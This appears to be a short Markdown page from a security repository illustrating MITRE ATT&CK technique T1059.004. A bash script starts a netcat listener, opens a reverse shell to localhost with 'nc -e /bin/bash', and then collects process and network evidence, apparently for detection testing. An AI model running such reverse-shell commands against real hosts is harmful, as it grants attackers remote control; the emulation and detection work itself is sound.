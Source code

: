## Command and Scripting Interpreter: Unix Shell
https://attack.mitre.org/techniques/T1059/004/

### Reverse Shell 

``` bash
echo "Start listener on port 4444"
nc -lvp 4444 &
sleep 2
echo "Reverse shell execution"
nc 127.0.0.1 4444 -e /bin/bash &
sleep 2
echo "Get evidences"
ps aux | grep "nc\|bash"
netstat -otnp | grep 4444
``` 